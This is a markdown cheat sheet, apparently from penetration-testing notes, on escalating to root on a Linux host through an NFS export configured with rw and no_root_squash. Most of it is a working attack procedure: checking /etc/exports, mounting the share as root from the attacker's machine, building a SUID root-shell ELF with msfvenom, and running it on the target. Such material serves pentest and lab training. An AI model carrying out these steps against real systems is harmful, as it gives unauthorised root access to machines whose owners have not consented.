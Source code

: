 # Privileges Escalation - Linux
# NFS Server exploitation

When we're inside the target machine, we have to check if it's an **NFS (Network File System) server**, in which we could mount locally directories from remote and try to exploit the NFS vulnerability (if there's one).

- [First step - on the target](#first-step---on-the-target)
- [Second step - on our machine](#second-step---on-our-machine)
- [Last step - on the target](#last-step---on-the-target)


## First step -  on the target
- Check if it's an NFS server with `cat /etc/exports`.
  - The output should be `<Remote dir> <Target IP>(<Permissions>)`
  - No output if no NFS service running on it.
- If we get `rw` permissions and also `no_root_squash` option, **we found a vulnerability**, so we can proceed.
  - `no_root_squash` option means that if the client loads a file with UID = 0 (root), the NFS server keeps it. 

## Second step - on our machine
- We have to log in as root, so `sudo su`.
- Then let's create the NFS share: `mkdir /tmp/nfs`.
- And let's mount the remote directory on it: `mount -o rw,vers=3 <Target IP>:<Remote dir> /tmp/nfs` 
- Now we have to create a `rootshell.elf` file to run a privileged shell: `msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/rootshell.elf`
- In the end, let's set the SUID bit: `chmod +xs /tmp/nfs/rootshell.elf` 

## Last step - on the target
- We can now launch the privileged shell from the exposed directory (`/tmp`) with `/tmp/rootshell.elf`.
- We should be able to gain access to a root shell. Check it with `whoami`.



